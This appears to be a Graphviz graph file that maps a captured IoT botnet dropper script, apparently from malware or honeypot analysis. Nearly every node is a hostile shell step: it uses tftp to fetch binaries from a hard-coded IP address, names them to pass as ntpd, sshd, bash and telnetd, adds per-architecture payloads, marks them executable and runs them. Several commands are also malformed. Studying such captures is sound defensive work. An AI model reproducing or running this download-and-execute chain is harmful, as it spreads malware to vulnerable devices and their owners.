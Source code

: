 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp -r ntpd -g 31.207.44.139 "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp -r sshd -g 31.207.44.139 "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp -r openssh -g 31.207.44.139 "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp -r bash -g 31.207.44.139 "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp -r tftp -g 31.207.44.139 "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp -r wget -g 31.207.44.139 "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp -r cron -g 31.207.44.139 "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp -r ftp -g 31.207.44.139 "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp -r pftp -g 31.207.44.139 "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp -r sh -g 31.207.44.139 "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp -r   -g 31.207.44.139 "];
214 -> 216 [label=";,"];
216 [label="cat   badbox "];
216 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp -r apache2 -g 31.207.44.139 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp -r telnetd -g 31.207.44.139 "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 264 [label=";,"];
264 [label="cp /bin/busybox -O /tmp/badbox "];
264 -> 264
266 [label="tp -r jackmymipsel -g 31.207.44.139 "];
266 -> 266
268 [label="cat jackmymipsel badbox "];
268 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 276 [label=";,"];
276 [label="tp -r jackmymips -g 31.207.44.139 "];
276 -> 276
278 [label="cat jackmymips badbox "];
278 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 286 [label=";,"];
286 [label="tp -r jackmysh4 -g 31.207.44.139 "];
286 -> 286
288 [label="cat jackmysh4 badbox "];
288 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 296 [label=";,"];
296 [label="tp -r jackmyx86 -g 31.207.44.139 "];
296 -> 296
298 [label="cat jackmyx86 badbox "];
298 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 306 [label=";,"];
306 [label="tp -r jackmyarmv6 -g 31.207.44.139 "];
306 -> 306
308 [label="cat jackmyarmv6 badbox "];
308 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 316 [label=";,"];
316 [label="tp -r jackmyi686 -g 31.207.44.139 "];
316 -> 316
318 [label="cat jackmyi686 badbox "];
318 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 326 [label=";,"];
326 [label="tp -r jackmypowerpc -g 31.207.44.139 "];
326 -> 326
328 [label="cat jackmypowerpc badbox "];
328 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 336 [label=";,"];
336 [label="tp -r jackmyi586 -g 31.207.44.139 "];
336 -> 336
338 [label="cat jackmyi586 badbox "];
338 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 346 [label=";,"];
346 [label="tp -r jackmym86k -g 31.207.44.139 "];
346 -> 346
348 [label="cat jackmym86k badbox "];
348 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 356 [label=";,"];
356 [label="tp -r jackmysparc -g 31.207.44.139 "];
356 -> 356
358 [label="cat jackmysparc badbox "];
358 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
}
